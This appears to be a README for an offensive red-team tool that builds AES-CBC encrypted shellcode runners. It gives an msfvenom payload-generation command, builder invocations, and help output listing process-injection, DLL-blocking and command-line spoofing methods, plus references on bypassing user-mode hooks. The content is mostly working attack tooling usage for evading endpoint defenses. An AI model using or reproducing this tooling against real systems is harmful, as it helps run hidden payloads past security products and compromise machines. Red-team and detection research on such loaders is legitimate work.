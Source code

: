 

Dependencies:
```
gcc
python3
nasm
```

use like
```bash
python3 -m venv env  
source env/bin/activate  
pip install pycryptodome  
msfvenom -p windows/x64/exec CMD='C:\Windows\System32\notepad.exe' EXITFUNC=process -f raw -o test.bin  
python build.py -inbin test.bin -execmethod runner
python builder.py -inbin test.bin -execmethod section_inject --process notepad.exe --cmdline 'c:\\windows\\system32\\firefox.exe'
```


```bash
usage: builder.py [-h] [-inbin INBIN] [-execmethod {section_inject,section_runner,section_runner_dll,section_runner_big,section_runner_big_dll,runner,runner_dll,runner_big_blockddls,runner_big_blockddls_dll,runner_blockdlls,runner_blockdlls_dll}] [--process PROCESS] [--cmdline CMDLINE] [--verbose]

generate AES-CBC encrypted shellcode runners

optional arguments:
  -h, --help            show this help message and exit
  -inbin INBIN          .bin file
  -execmethod {section_inject,section_runner,section_runner_dll,section_runner_big,section_runner_big_dll,runner,runner_dll,runner_big_blockddls,runner_big_blockddls_dll,runner_blockdlls,runner_blockdlls_dll}
  --process PROCESS     process to inject (only with 'section_inject')
  --cmdline CMDLINE     cmdline argument to show (only with 'section_inject')
  --verbose             
  ```  

### References & Reading
Generally:  
hasherezade -- rely heavilly on her PEB lookup heeader code
forrest-orr -- excellent code to read and learn from  
batsec -- lots of python building stuff from his shad0w project  

https://www.mdsec.co.uk/2020/12/bypassing-user-mode-hooks-and-direct-invocation-of-system-calls-for-red-teams  
https://github.com/simon-whitehead/assembly-fun/blob/master/windows-x64/README.md  
